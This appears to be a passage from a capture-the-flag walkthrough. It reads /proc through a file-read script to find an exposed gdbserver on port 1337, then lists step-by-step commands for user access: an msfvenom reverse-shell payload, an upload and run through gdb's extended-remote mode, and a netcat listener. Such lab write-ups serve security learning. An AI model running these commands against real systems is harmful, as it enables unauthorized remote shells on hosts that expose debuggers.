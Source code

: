 ### Read /proc/sched_debug
```
python3 backdoor-2.py /proc/sched_debug | grep gdbserver
 S      gdbserver 161671        32.449731        13   120         0.000000         4.427913         0.000000 0 0 /autogroup-208
```
### Read gdbserver cmdline
```
$ python3 backdoor-2.py /proc/161671/cmdline              
/proc/161671/cmdline/proc/161671/cmdline/proc/161671/cmdlinegdbserver--once0.0.0.0:1337/bin/true<script>window.close()</script>
```
-> Port 1337 waste is running a GDB Server

# 3 User
## 3.1 Generate payload
``` 
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 PrependFork=true -f elf -o binary.elf
```

## 3.2 CHMOD
```
chmod +x binary.elf
```
## 3.3 Execute GDB
```
gdb binary.elf
# I am running an ARM system, for that I had to use gdb-multiarch instead
# gdb-multiarch binary.elf
```
## 3.4 Set remote debuger target
```
target extended-remote 10.10.10.11:1337
```

## 3.5 Upload elf file
```
remote put binary.elf binary.elf
```
## 3.6 Set remote executable file
```
set remote exec-file /home/user/binary.elf
```
## 3.7 Netcat on LPORT
```
nc -lvnp 4444
```
## 3.8 Execute reverse shell executable
```
run
```
-> Reverse Shell at NC port 4444
